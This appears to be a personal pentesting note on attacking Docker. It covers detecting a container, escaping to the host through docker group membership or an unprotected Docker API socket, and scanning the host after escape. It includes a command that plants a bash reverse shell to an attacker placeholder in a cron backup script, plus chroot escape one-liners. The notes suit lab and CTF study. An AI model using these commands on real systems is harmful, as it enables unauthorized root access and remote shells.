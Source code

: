 ```yaml
---
title: Docker hacking 🐳
---
```

## Understand how docker works

Go to the [Intro to Docker 🐳](/notes/Info/intro_to_docker.md) note.

## .dockerenv
- If we find a `.dockerenv` file in the root directory, we are running inside a docker container

![](Pasted%20image%2020240215214817.png)

- If we find a `.sh` on the `/opt/backups` directory like a backup script that might be running a cron job, we can try to write a reverse shell to it:

```shell
echo "bash -i >& /dev/tcp/IP_ATTCK/PORT 0>&1" >> backup.sh
```

## Being part of the docker group

- If we find out that our victim user belongs to the docker group, we can do the following (based on [GTFObins](https://gtfobins.github.io/gtfobins/docker/)):

```shell
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

![](Pasted%20image%2020240417222812.png)

![](Pasted%20image%2020240417222753.png)

## Escaping a container

- Once we are root by exploiting a capability vulnerability as example, we have to pivot to the host of the container as follows:

- Check environment variables for misconfigurations with `printenv`
- Run `ifconfig` to see if we are connected to the eth0
- Run `arp -a` to discover other hosts on the network

```shell
ip-172-17-0-1.eu-west-1.compute.internal (172.17.0.1) at 02:42:d2:ff:62:fe [ether] on eth0
```

- So now we know that `172.17.0.1` is our host
- Now we want to perform an nmap scan to it, so we will upload a [nmap binary](https://nmap.org/download.html#linux-rpm)
	- Download the source code one
	- Install with the following:

```shell
bzip2 -cd nmap-7.94.tar.bz2 | tar xvf -
cd nmap-7.94
./configure
make
su root
make install
```

- If you haver dependency errors try [this nmap binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap)
	- With this one just upload it to the container and the add it execution permissions

- Now run:

```shell
./nmap -Pn -T4 -p- 172.17.0.1 --min-rate 5000 -vv

Host is up, received arp-response (-0.0014s latency).
Scanned at 2024-04-21 17:17:26 UTC for 39s
Not shown: 65531 filtered ports
Reason: 65531 no-responses
PORT     STATE  SERVICE REASON
22/tcp   open   ssh     syn-ack ttl 64
80/tcp   open   http    syn-ack ttl 64
5985/tcp closed unknown reset ttl 64
5986/tcp open   unknown syn-ack ttl 64
MAC Address: 02:42:D2:FF:62:FE (Unknown)

Read data files from: /etc
Nmap done: 1 IP address (1 host up) scanned in 39.69 seconds
           Raw packets sent: 196632 (8.652MB) | Rcvd: 38 (1.620KB)
```

- The port 5986 is for Microsoft's [Open Management Infraestructure (OMI)](https://github.com/microsoft/omi) service for remote configuration management of *nix VMs in Azure. Our host must be a simulation of an Azure Linux VM.
- There is a [CVE for an unauthenticated RCE](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-38647), and a [public exploit](https://github.com/AlteredSecurity/CVE-2021-38647) for OMI we can test.
	- You can check the exploitation in this notes in [CVE-2021-38647](/notes/Exploits/CVE-2021-38647.md)

## Unprotected TCP socket (port 2375, 2376)

Utilizing Docker via unprotected tcp socket (2375/tcp, maybe 2376/tcp with tls but without tls-auth), an attacker can create a docker container with the '/' path mounted with read/write permissions on the host server that is running the docker container and use chroot to escape the container-jail.

```shell
#PoC
docker -H tcp://<ip>:<port> run --rm -ti -v /:/mnt alpine chroot /mnt /bin/sh
```

## Search for docker containers (on the Host machine)

We can employ **findmnt** to display the mounts connected to the system, including those used by Docker containers:

```shell
findmnt
```